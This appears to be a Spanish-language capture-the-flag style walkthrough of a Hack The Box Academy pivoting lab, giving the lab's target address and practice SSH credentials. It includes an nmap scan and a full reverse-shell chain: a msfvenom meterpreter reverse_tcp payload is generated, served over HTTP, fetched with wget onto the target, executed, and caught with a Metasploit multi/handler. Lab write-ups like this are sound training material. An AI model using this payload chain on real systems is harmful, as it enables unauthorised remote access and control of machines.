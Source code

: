 Con esto, estableceremos la sesión Meterpreter.

---

**Target(s): 10.129.250.220**
**SSH to 10.129.250.220 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"**
**1. What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)**

Realizo un escaneo básico de nmap y observo que tengu un servicio SSH y un servicio HTTP.
```
map -sCV -Pn -n 10.129.250.220 --open --min-rate 2000

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Genero msfvenom para establecer una sesión de meterpreter, ya que tengo credenciales SSH.
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.176 -f elf -o meterpreter_ubuntu LPORT=8080
```

Lo comparto por servidor http:
```
python3 -m http.server
```

Y me lo descargo desde una sessión SSH con:
```
ssh ubuntu@10.129.250.220

ubuntu@WEB01:~$ wget http://10.10.14.176:8000/meterpreter_ubuntu
```

Abro un msfconsole desde el atacante y ejecuto:
```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

Ejecutamos desde la sesión de ubuntu el exploit: 
```
ubuntu@WEB01:~$ ./meterpreter_ubuntu
```
